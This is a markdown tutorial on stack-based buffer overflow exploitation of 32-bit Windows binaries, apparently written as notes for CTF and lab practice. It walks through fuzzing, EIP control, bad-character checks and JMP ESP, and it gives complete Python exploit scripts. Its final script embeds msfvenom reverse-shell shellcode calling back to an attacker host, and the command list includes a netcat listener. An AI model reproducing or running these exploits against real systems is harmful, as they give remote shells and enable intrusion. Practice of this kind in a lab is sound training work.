

# Buffer Overflow - Stack based - Winx86

*For the buffer overflow, you need to take the binary you want to investigate and put it in your own lab to analyse and test it.  
Sometimes for CTF or on CTF platforms you will have to get it from the remote machine.*

## Some advice on how to learn

When I started, I found buffer overflow very hard.  
And today I almost enjoy it ;) :D  

In order to understand it better, here is what I did:

- Checked out Heath Adams video The Cyber Mentor on youtube (completely free, clear and very well explained)
- Completed this with the cours on HTB Academy 
- Finally I practiced on some boxes on TryHackMe

*See links in the resources below*

## Tools

### x64dbg

- [Install instructions](https://github.com/x64dbg/x64dbg)
- [Latest release](https://github.com/x64dbg/x64dbg/releases/tag/snapshot)

### Immunity Debbuger

- If you do not like x64dbg you can use [Immunity Debbugger](https://www.immunityinc.com/products/debugger/)


### ERC

- Plugin for x64gdb
- [Latest release](https://github.com/Andy53/ERC.Xdbg/releases)
- `ERC --help` will show help menu
- `ERC --config SetWorkingDirectory C:\Users\User\directory` Set default working directory

## Set up your testing lab

[](TODO)
- Virtualbox or VMWare
- One kali
- One win

## Methodology

***Note: The scripts provided here are shown as example, you will have to modify them according to the behavior of the binary you are testing***

### 1. Fuzzing parameters

- Remote fuzzing
  - `netstat -a` | to check if the bin listens on a specific port
    ```DOS
    Proto  Local Address          Foreign Address        State
    TCP    0.0.0.0:21449          IEWIN7:0               LISTENING
    ```
   - You will need chisel
     On your attacking machine `./chisel server -reverse`  
     On your victim machine .\chisel.exe client IP-DE-KALI:8080 R:21449:127.0.0.1:21449
   - From your attacking machine
     `.\nc.exe 127.0.0.1 PortNumber` | to interact with the bin remotely
    - Start fuzzing
      ```python
      import socket
      from struct import pack

      IP = "127.0.0.1"
      port = 21449

      def fuzzing():
         try:
             for i in range(0,10000,500):
                 buffer = b"A"*i
                 print("Fuzzing %s bytes" % i)
                 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                 s.connect((IP, port))
                 s.send(buffer)
                 breakpoint() 
                 # To follow in console until you reach the error you can type c and enter
                 s.close()
             except:
                 print("Could not establish a connection")
      fuzzing()
      ```
      Here is how it looks in your console:
      ```bash
      ┌──(kali㉿kali)-[~/Documents/bof]
      └─$ python3 fuzz.py
      Fuzzing 0 bytes
      > /home/kali/Documents/bof-htb/assessment.py(16)fuzzing()
      -> s.close()
      (Pdb) c
      Fuzzing 500 bytes
      > /home/kali/Documents/bof-htb/assessment.py(15)fuzzing()
      -> breakpoint()
      (Pdb)
      ```
      
### Controlling EIP

Once we get the number of bytes, we can fill our buffer with an ASCII pattern.
- In x32dbg
  ```
  ERC --pattern c 500
  ```
  
  Erc will generate a txt with a pattern that will be available in your working directory (if you did not set a working dir, it will probably end up in the plugins folder)
  It should be named "Pattern_Create_1.txt"

- We modify our script accordingly
  ```python
  # fuzzing()
  def eip_offset():
     pattern = bytes("PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE" ,"utf-8")
     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     s.connect((IP, port))
     s.send(pattern)
     s.close()

  eip_offset()
  ```
  We can now relaunch the program from our debbugger
  The program will crach with the pattern that rewritten EIP.
  In x32debug we can select the address of EIP to calculate the offset we can click on "modify value"  
    
  We can then use ERC pattern: `ERC --pattern o pA6p`  
    
  In the example we can then write that our offset is 469
  We can update our script accordingly
  ```python
  # eip_offset()

  def eip_control():

          offset = 469
          buffer = b"A"*offset
          eip = b"B"*4
          payload = buffer + eip

          s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          s.connect((IP, port))
          s.send(payload)
          s.close()

  eip_control()
  ```
  We can then relaunch the bin with the restart button in x32dbg (Note everytime you rerun the script check that it is running and not paused)
  We can now see that we control EIP because we can see our B (42424242) sent by our script  
    

### 3. Identifying Bad Characters

We now need another function to identify bad chars.
To get a list of badchars we can use the following command with ERC `ERC --bytearray` we will then get a file intitled `ByteArray_1.txt` in our working directory.
And we can then update our script:
```
def bad_chars():
	all_chars = bytes([
		0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
		0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
		0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
		0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
		0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
		0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
		0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
		0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
		0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
		0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
		0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
		0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
		0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
		0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
		0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
		0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
		0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
		0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
		0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
		0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
		0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
		0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
		0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
		0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
		0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
		0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
		0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
		0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
		0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
		0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
		0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
		0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
	])
	offset = 469
	buffer = b"A"*offset
	eip = b"B"*4
	payload = buffer + eip + all_chars
	
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((IP, port))
	s.send(payload)
	s.close()

bad_chars()
```
We can then restart the binay in x32dbg and run our script.
We have to check out for bad chars using ESP address and the ByteArray file generated with ERC
    
```
ERC --compare 016EFB60 C:\Users\User\working-dir\ByteArray_1.bin
```

We are now able to compare every char using the table  
   

In our example for example we can see that 0x00 seems to be a bad char. So we have to repeat this same process again and remove 0x00 from our list.
To get the new list we can use ERC again and specify to remove 0x00 `ERC --bytearray -bytes 0x00`
We do this again and again until we do not have any bad chars anymore.

### 4. Finding a return Instruction

We can use ERC to list modules: `ERC --ModuleInfo`

We need to find one with all protections set to false:  
    
In our example we can use win32bof.exe or funcs.dll
We can search for JMP ESP or CALL ESP We go to the symbols tab and click on the line win32bof.exe as it was in the list
Then we can do ctrl+f to search for jmp esp
We have no results so we will try with funcs.dll
We have an address:
    
We can then write down this address and keep aside

### 5. Jumping to Shellcode

Now that we know where is jmp esp we can create our shellcode with msfvenom and specify the badchars
In our local env we will launch calc

`msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00\x0a\x0d'`
We can comment the bad_chars function and define our last exploit function

We will make our final payload which will send the buffer, the eip, some nop and our shellcode.

As the top of the stack can move we'll add some nop (no operations)

To be safe we can put 32 nops because it rarely reaches 32 bytes (not more than 16 in general)

And as we are going to use pack we need to import the necessary python modules, pack will allow us to manage the little Endian and we will use '<L' to specify Little Endian.

And so in EIP we put the address of jmp esp in little endian.

And here is our last function ready to be sent:
```
def exploit():

# msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00\x0a\x0d'
        buf =  b""
        buf += b"\xdb\xd1\xbe\x2f\xeb\xc4\x18\xd9\x74\x24\xf4\x5a\x31"
        buf += b"\xc9\xb1\x31\x31\x72\x18\x83\xc2\x04\x03\x72\x3b\x09"
        buf += b"\x31\xe4\xab\x4f\xba\x15\x2b\x30\x32\xf0\x1a\x70\x20"
        buf += b"\x70\x0c\x40\x22\xd4\xa0\x2b\x66\xcd\x33\x59\xaf\xe2"
        buf += b"\xf4\xd4\x89\xcd\x05\x44\xe9\x4c\x85\x97\x3e\xaf\xb4"
        buf += b"\x57\x33\xae\xf1\x8a\xbe\xe2\xaa\xc1\x6d\x13\xdf\x9c"
        buf += b"\xad\x98\x93\x31\xb6\x7d\x63\x33\x97\xd3\xf8\x6a\x37"
        buf += b"\xd5\x2d\x07\x7e\xcd\x32\x22\xc8\x66\x80\xd8\xcb\xae"
        buf += b"\xd9\x21\x67\x8f\xd6\xd3\x79\xd7\xd0\x0b\x0c\x21\x23"
        buf += b"\xb1\x17\xf6\x5e\x6d\x9d\xed\xf8\xe6\x05\xca\xf9\x2b"
        buf += b"\xd3\x99\xf5\x80\x97\xc6\x19\x16\x7b\x7d\x25\x93\x7a"
        buf += b"\x52\xac\xe7\x58\x76\xf5\xbc\xc1\x2f\x53\x12\xfd\x30"
        buf += b"\x3c\xcb\x5b\x3a\xd0\x18\xd6\x61\xbe\xdf\x64\x1c\x8c"
        buf += b"\xe0\x76\x1f\xa0\x88\x47\x94\x2f\xce\x57\x7f\x14\x20"
        buf += b"\x12\x22\x3c\xa9\xfb\xb6\x7d\xb4\xfb\x6c\x41\xc1\x7f"
        buf += b"\x85\x39\x36\x9f\xec\x3c\x72\x27\x1c\x4c\xeb\xc2\x22"
        buf += b"\xe3\x0c\xc7\x40\x62\x9f\x8b\xa8\x01\x27\x29\xb5"
        offset = 469
        buffer = b"A"*offset
        eip = pack('<L', 0x621014E3)
        nop = b"\x90"*32
        payload = buffer + eip + nop +buf
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))
        s.send(payload)
        s.close()
exploit()
```
At this point we can just try t without the debugger, we should see the calc pop up in our test machine.

### Use our exploit in the real target

So now that our exploi works locally we can use it on the target.  
We can change our shellcode to get a reverse shell instead of launching calc.  
`msfvenom -p 'windows/shell_reverse_tcp' LHOST=ATTACKING-MACHINE-IP LPORT=1234 -f 'python' -b '\x00\x0a\x0d'`
Here is our final script:  
```
import socket
from struct import pack

IP = "REMOTE-IP-ADDR-OF-YOUR-TARGET"
port = PORT-NUMBER_WHERE-THE-VULNERABLE-SCRIPT-IS-RUNNING


def exploit():
# msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.14.243 LPORT=1234 -f 'python' -b '\x00\x0a\x0d'
        buf =  b""
        buf += b"\xbb\xac\xfa\x74\x82\xdb\xca\xd9\x74\x24\xf4\x5d\x31"
        buf += b"\xc9\xb1\x52\x31\x5d\x12\x03\x5d\x12\x83\x69\xfe\x96"
        buf += b"\x77\x8d\x17\xd4\x78\x6d\xe8\xb9\xf1\x88\xd9\xf9\x66"
        buf += b"\xd9\x4a\xca\xed\x8f\x66\xa1\xa0\x3b\xfc\xc7\x6c\x4c"
        buf += b"\xb5\x62\x4b\x63\x46\xde\xaf\xe2\xc4\x1d\xfc\xc4\xf5"
        buf += b"\xed\xf1\x05\x31\x13\xfb\x57\xea\x5f\xae\x47\x9f\x2a"
        buf += b"\x73\xec\xd3\xbb\xf3\x11\xa3\xba\xd2\x84\xbf\xe4\xf4"
        buf += b"\x27\x13\x9d\xbc\x3f\x70\x98\x77\xb4\x42\x56\x86\x1c"
        buf += b"\x9b\x97\x25\x61\x13\x6a\x37\xa6\x94\x95\x42\xde\xe6"
        buf += b"\x28\x55\x25\x94\xf6\xd0\xbd\x3e\x7c\x42\x19\xbe\x51"
        buf += b"\x15\xea\xcc\x1e\x51\xb4\xd0\xa1\xb6\xcf\xed\x2a\x39"
        buf += b"\x1f\x64\x68\x1e\xbb\x2c\x2a\x3f\x9a\x88\x9d\x40\xfc"
        buf += b"\x72\x41\xe5\x77\x9e\x96\x94\xda\xf7\x5b\x95\xe4\x07"
        buf += b"\xf4\xae\x97\x35\x5b\x05\x3f\x76\x14\x83\xb8\x79\x0f"
        buf += b"\x73\x56\x84\xb0\x84\x7f\x43\xe4\xd4\x17\x62\x85\xbe"
        buf += b"\xe7\x8b\x50\x10\xb7\x23\x0b\xd1\x67\x84\xfb\xb9\x6d"
        buf += b"\x0b\x23\xd9\x8e\xc1\x4c\x70\x75\x82\x78\x8f\x7b\xa1"
        buf += b"\x15\x8d\x83\x41\x34\x18\x65\x23\xa8\x4d\x3e\xdc\x51"
        buf += b"\xd4\xb4\x7d\x9d\xc2\xb1\xbe\x15\xe1\x46\x70\xde\x8c"
        buf += b"\x54\xe5\x2e\xdb\x06\xa0\x31\xf1\x2e\x2e\xa3\x9e\xae"
        buf += b"\x39\xd8\x08\xf9\x6e\x2e\x41\x6f\x83\x09\xfb\x8d\x5e"
        buf += b"\xcf\xc4\x15\x85\x2c\xca\x94\x48\x08\xe8\x86\x94\x91"
        buf += b"\xb4\xf2\x48\xc4\x62\xac\x2e\xbe\xc4\x06\xf9\x6d\x8f"
        buf += b"\xce\x7c\x5e\x10\x88\x80\x8b\xe6\x74\x30\x62\xbf\x8b"
        buf += b"\xfd\xe2\x37\xf4\xe3\x92\xb8\x2f\xa0\xa3\xf2\x6d\x81"
        buf += b"\x2b\x5b\xe4\x93\x31\x5c\xd3\xd0\x4f\xdf\xd1\xa8\xab"
        buf += b"\xff\x90\xad\xf0\x47\x49\xdc\x69\x22\x6d\x73\x89\x67"
        
        offset = 469
        buffer = b"A"*offset
        eip = pack('<L', 0x621014E3)
        nop = b"\x90"*32
        payload = buffer + eip + nop +buf
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))
        s.send(payload)
        s.close()
exploit()
```

## Useful commands

### General

- `/usr/bin/msf-pattern_create -l 5000` Create a Pattern with msf-pattern (Metasploit)
- `/usr/bin/msf-pattern_offset -q 31684630` Find Pattern Offset with Metaplsoit
- `netstat -a \|findstr LISTEN` List listening ports on a Windows machine
- `nc 127.0.0.1 8888` Interact with port 8888
- `msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'` Generate a Local Privesc Shellcode
- `msfvenom -p 'windows/shell_reverse_tcp' LHOST=IP-ADR-OF-TARGET LPORT=1234 -f 'python' -b '\x00\0x0a'` Generate a Reverse Shell Shellcode
- `nc -lvnp 1234` catch our reverse shell

### Useful in x32dbg with ERC module installed

- `F3` Open file
- `alt+A` Attach to a process
- `alt+L` Go to Logs Tab
- `alt+E` Go to Symbols Tab
- `ctrl+f` Search for instruction
-  `ctrl+b` Search for pattern
- `Search For>All Modules>Command` Search all loaded modules for instruction
- `Search For>All Modules>Pattern` Search all loaded modules for pattern
-  `ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\` Configure Working Directory
- `ERC --pattern c 5000` Create Pattern
- `ERC --pattern o pA6p` Find Pattern Offset
- `ERC --bytearray` Generate All Characters Byte Array
- `ERC --bytearray -bytes 0x00` Generate Byte Array excluding certain bytes
- `ERC --compare 0014F974 C:\Users\User\working-dir\ByteArray_1.bin` Compare bytes in memory to a Byte Array file
- `ERC --ModuleInfo` List loaded modules and their memory protections

### Useful in Python

- `python -c "print('A'*10000)"  Print 10000 'A's
- `python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"` Write it to a file
- `breakpoint()` Add a breakpoint to Python exploit
- `c` Continue from breakpoint

## Resources

- [Buffer overflow made easy 2022 Edition - The Cyber Mentor](https://www.youtube.com/watch?v=ncBblM920jw&ab_channel=TheCyberMentor)
- [Buffer Overflows Made Easy - The Cyber Mentor](https://youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)
- [Stack-Based Buffer Overflows on Windows x86 - HackTheBox Academy](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-windows-x86)
- [Buffer Overflow Prep - THM](https://tryhackme.com/room/bufferoverflowprep)
- [Brainstorm - THM](https://tryhackme.com/room/brainstorm)
- [Brainpan - THM](https://tryhackme.com/room/brainpan)
- [Gatekeeper - THM](https://tryhackme.com/room/gatekeeper)
- [x64dbg](https://github.com/x64dbg/x64dbg)
- [x64dbg releases](https://github.com/x64dbg/x64dbg/releases/tag/snapshot)
- [ERC releases](https://github.com/Andy53/ERC.Xdbg/releases)
- [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
